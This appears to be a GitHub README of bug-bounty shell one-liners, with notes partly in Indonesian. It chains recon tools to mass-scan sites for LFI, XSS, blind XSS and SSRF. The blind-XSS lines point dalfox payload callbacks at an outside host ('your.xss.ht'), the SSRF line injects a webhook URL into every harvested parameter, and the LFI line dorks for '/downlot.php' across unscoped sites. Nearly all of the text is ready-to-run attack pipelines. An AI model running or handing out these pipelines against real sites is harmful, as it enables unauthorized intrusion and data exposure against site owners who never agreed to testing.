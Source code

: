 # One Liner Bug Bounty
---
> Notes :
> Hati-hati false positive

### LFI
---
1. Using dorking (go-dork)
```bash
$ go-dork -q "inurl:/downlot.php" -p 2 -silent | sed -e 's/\x1b\[[0-9;]*m//g' | qsreplace (lfi payload) | httpx -silent -title -status-code > lfi.txt
```


### XSS
---
1. Using KXSS
```bash
echo "https://redirect.com/" | gau | grep "="| kxss |tee kxss.txt
```

2. [Blind XSS](https://xsshunter.com) using waybackurls + dalfox
```bash
$ waybackurls redacted | gf xss | sed 's/=.*/=/' | sort -u | tee test.txt && cat test.txt | dalfox -b your.xss.ht > blindxss.txt
```

and using subfinder + dnsx
```bash
$ cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro | dalfox pipe -b your.xss.ht -o blindxss.txt
```

### SSRF
---
Untuk webhook saya menggunakan ini [biasanya](https://webhook.site/)
```bash
$ subfinder -d domain.com | httpx -silent -threads 1000 | waybackurls | grep "=" | qsreplace <your webhook> > ssrf.txt
```